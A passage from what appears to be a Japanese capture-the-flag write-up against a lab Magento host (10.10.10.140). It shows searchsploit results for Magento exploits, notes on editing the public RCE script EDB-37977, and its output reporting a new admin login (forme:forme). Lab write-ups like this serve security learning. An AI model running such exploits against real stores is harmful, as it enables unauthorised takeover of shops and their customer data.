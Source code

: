 ```
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                                         | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                                    | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                                      | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                                            | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                                       | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                                                                                                                                         | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                                                         | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                                      | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                                           | exploits/php/webapps/38651.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
kali@kali:~$ searchsploit -p 37977
  Exploit: Magento eCommerce - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37977
     Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
File Type: ASCII text, with CRLF line terminators

Copied EDB-ID #37977's path to the clipboard.
```
これを使ってみます

https://www.exploit-db.com/exploits/37977

37977.py の中を色々弄ります（コメントになってない余計な部分の削除、target.com を `10.10.10.140/index.php` に）

```
kali@kali:~$ python 37977.py                                                                                                                                                                                                               
WORKED                                                                                                                                                                                                                                     
Check http://10.10.10.140/index.php/admin with creds forme:forme  
```
